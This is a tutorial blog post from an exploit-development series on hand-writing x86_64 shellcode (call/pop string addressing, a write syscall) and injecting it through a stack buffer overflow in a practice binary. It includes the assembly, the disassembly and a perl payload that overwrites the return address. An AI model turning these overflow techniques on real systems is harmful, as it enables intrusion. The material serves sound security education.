 ```yaml
---
title: Stack Warmup 5 Part 2
description: Writing Shellcode
link: Stack Warmup 5b
author: gr0k
layout: post
github_comments_issueid: 10
permalink: /exdev/stack5b.html
date: 18 May 2019
---
```


In [Part 1]({{ site.url }}/exdev/stack5a.html) I looked at how we could use a buffer overflow to inject our own instructions into a program and make it execute code of our choosing. To build the shellcode, I used the existing functionality of the program to print out a message of my choosing. This required us to find and hard code the address of the `puts` function. Using hard coded addresses like this made our shellcode very brittle; any change to the layout of the code in memory would cause it to break, reducing its effectiveness. We saw this this when our shellcode worked in the debugger but failed on the command line. This post will explore how to fix that problem.

If you're coming here directly, check out my [Getting Started]({{ site.url }}/exdev/intro.html) and [Environment Build]({{ site.url}}/exdev/build.html) walkthroughs to get up and running.  

## Getting Close to the Machine

Different programming languages exist at different levels of abstraction from the machine. At the lowest level is machine code, the instructions directly executed by the CPU. In Part 1, we looked up the opcodes we needed for our exploit, injecting them into the running process.

One step up from machine code is assembly language. Before the CPU can execute your assembly instructions, they must be converted into machine code. This process is handled by a program called an *assembler*. Some common assemblers include the Netwide Assembler (NASM) or the Microsoft Macro Assembler (MASM). When assembly code is converted to machine code, there is a one-to-one translation of assembly instruction to machine opcode

A step above assembly are compiled programming languages like C. In order for a processor to execute code in these languages, you must first compile it.  The compilation process converts the human readable source code into assembly, and then into machine code.  

Above compiled languages are interpreted "high level" languages like Python. Languages like these rely on an interpreter to convert and execute instructions on the CPU one line at a time.

You can see these levels depicted in the image below:

![Compilation](/assets/images/exdev/stack5/compilation.jpg)

## Programming in Assembly

When we used `objdump` in Part 1 to look at the stack5 disassembly, the third column of output had the assembly mnemonics associated with the machine codes executed on the CPU. Rather than look for the opcodes by hand, we can write our instructions using these mnemonics, and the assembler will convert them into the necessary opcodes. This provides us significantly more flexibility as we build our code.

Rather than re-purposing the print functionality of the program, which requires finding the address of the `puts` function, we'll leverage the capabilities of the operating system. Computer operating systems provide programs with access to its resources through *system calls*. These calls provide access to all kinds of services, such as reading and writing to files, control of processes and network connections, and memory management. You can find a listing of all x86_64 system calls [here](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).

We're interested in the write call in particular:

| $rax | System Call |  $rdi | $rsi |  $rdx |
|--|--|--|--|--|
| 1 | sys_write | unsigned int fd | const char *buf | size_t count |

What this table tells us is how we need to set up the registers in order to use the write system call. The identifier for the system call is `1`, which gets placed in the `$rax` register. Then we need to put the file descriptor of the location we want to write to in `$rdi`, a pointer to the string we want to write in `$rsi`, and the length of that string in `$rdx`.

Unix uses file descriptors as a way to refer to files or other system resources. On all Unix systems, the file descriptors 0, 1, and 2 refer to standard input, standard output, and standard error respectively. Since we want to print our message to the console, we'll pass `1` as our file descriptor in `$rdi`, telling the system to display our message on standard output.

The value we need for count is just the length of the string we want to print. Our message is "you win!", and we'll add a space character at the end, for a total of 9 bytes. We'll place this count into the `$rdx` register so the system knows how many characters it needs to print.

The hard part is getting the pointer for the string which needs to go into `$rsi`. We won't know what the memory address of our string will be when it's injected, so we'll need some way to calculate it. To do this, we'll leverage the functionality of the operating system.

Recall from the first walkthrough how [stack frame construction works]({{ site.url }}/exdev/stack1.html#stack-frame-construction). When a function gets called, the address immediately after it gets pushed to the stack, which is what allows the program to return to where it left off. We can leverage this by placing our string immediately after a `CALL` instruction. This will result in the address of our string getting pushed to the stack. We can then `POP` this address into `$rsi`, which saves us from having to hard code the memory address of our string.

Put together, our assembly program looks like this:

<div class="code-container">
{% highlight c linenos %}
BITS 64

	call write
	db "you win! "

write:
	pop rsi
	mov rax, 1
	mov rdi, 1
	mov rdx, 9
	syscall
{% endhighlight %}
</div>

Line 1 tells the assembler, NASM, to assemble this using 64-bit opcodes. The `CALL` instruction on line 3 lets the assembler know to push the address of our string on line 4 to the stack, and then begin executing the instructions at the label `write`. The first instruction pops the address of our string off the stack into the `$rsi` register. We then set up the remaining registers as discussed, and finally execute the syscall.

Saving this file as `exploit.asm`, we can use NASM to assemble it with the command `nasm exploit.asm`. NASM will do its thing, assembling your code into the file `exploit`, which we can view with `ndisasm`:

```c
gr0ked (master) bin $ ndisasm -b64 exploit
00000000  E809000000        call 0xe
00000005  796F              jns 0x76
00000007  7520              jnz 0x29
00000009  7769              ja 0x74
0000000B  6E                outsb
0000000C  2120              and [rax],esp
0000000E  5E                pop rsi
0000000F  B801000000        mov eax,0x1
00000014  BF01000000        mov edi,0x1
00000019  BA09000000        mov edx,0x9
0000001E  0F05              syscall
gr0ked (master) bin $
```
You can see NASM has calculated the offset it needs to call the `write` label (9 bytes, the size of our string). When the `call` executes, the address of our string will get pushed to the stack, which then immediately gets placed in `$rsi` with the `pop` instruction. The remaining registers are set up, and then the `syscall` tells the operating system to execute the request.

## Exploitation

With our shellcode ready to go, we need to figure out how many extra bytes we need to overflow the buffer. Counting the bytes of our shellcode, we see it has 32 bytes:

```c
gr0ked (master) bin $ wc -c exploit
32 exploit
gr0ked (master) bin $
```

We need 112 bytes to overwrite the return address. 32 bytes come from our shellcode, 8 come from the return address, leaving 72 bytes left to fill in.

Running the program, we can see what the memory address for the buffer is. Since its running on a 64-bit system, don't forget that the full buffer address is 8 bytes, `0x00007fffffffde80`.

```bash
gr0ked (master) bin $ ./stack5
buf: ffffde80 cookie: ffffdedc
asdf
gr0ked (master) bin $
```

We'll append the extra 72 bytes and the address of the buffer to our exploit file:

```bash
gr0ked (master) bin $ perl -e 'print "A"x72 . "\x80\xde\xff\xff\xff\x7f\x00\x00"' >> exploit
```

And then send it to the stack5 program:

```bash
gr0ked (master) bin $ ./stack5 < exploit
buf: ffffde80 cookie: ffffdedc
you win! Segmentation fault (core dumped)
gr0ked (master) bin $
```
You win. Well done.

## Conclusion

In order to get our shellcode working, we figured out how to write our payload in assembly, allowing us to use the behavior of the stack to calculate the address of our string for us. We still had to hardcode our new return address, which isn't ideal, but at least our shellcode works from the command line now.

There's another issue with our shellcode that we've avoided so far by luck. These programs use the `gets` function to take user input, which only terminates when it receives a new line or end-of-file marker. Other input functions in C terminate when they receive a null byte, and if you look back at the disassembly of our shellcode, you'll notice we have 12 of them. To make our shellcode more robust, we'll need to find a way to remove these null bytes, and avoid hardcoded memory addresses altogether. I'll explore how to do that next time.
